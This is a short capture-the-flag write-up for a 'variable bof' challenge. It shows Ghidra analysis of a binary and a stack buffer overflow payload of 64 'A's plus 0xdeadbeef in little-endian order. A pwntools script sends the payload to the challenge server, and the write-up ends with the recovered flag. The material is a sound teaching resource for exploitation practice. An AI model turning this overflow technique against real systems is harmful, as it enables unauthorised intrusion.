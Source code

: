 # variable bof
![image](https://user-images.githubusercontent.com/34862954/164884883-ec4ea2ec-b96c-4770-bd14-fd0584328d66.png)

## Approach
once again, disassembly the file with ghidra to view the pseudocode.\
![image](https://user-images.githubusercontent.com/34862954/164883191-83c106af-6abd-40a2-8539-db44fe824706.png)

hmmmm.<br>
here we have to make the value of local_128 as -0x21524111\
wait what's that? negative hex?\
well if you convert that hex into decimal and then convert it to hex by 2's compliment\
it's 0xdeadbeef 🔥

now how can make that local_128 equal to 0xdeadbeef?!<br>
we need to know that the stack grows downward<br>
![image](https://user-images.githubusercontent.com/34862954/164883524-0d5bc8f8-9613-4e18-bbd1-1fc260d963c9.png)

So we need the bufferflow attack like this. first 64 A's then deadbeef but in reverse order.<br>![image](https://user-images.githubusercontent.com/34862954/164884035-e9b0b1c2-d862-4953-bfb2-b754e84df1b8.png)

now our attack string is 'A'*64 + '\xEF\xBE\xAD\xDE'

i used pwntools to make the attack as manually copying the string won't work as it may hv some non printable characters.

```
from pwn import *


conn = remote('wannahack.copsiitbhu.co.in',2420)
conn.recvline()
conn.recvline()
conn.recvline()
conn.recvline()

payload = 'A'*64 +'\xEF\xBE\xAD\xDE' + '\n' #just dont forget this \n

conn.send(payload)
print(conn.recvline())

conn.close()
```

this will do the work.yeah, pwntools are simply awesome!!
![image](https://user-images.githubusercontent.com/34862954/164884849-de65b57a-9fc5-42b7-9424-f620b2b9bf5a.png)
and u got the flag.

`flag: wannahack{H0w_d1d_y0u_c5@ng3_M3_!!!!!}`


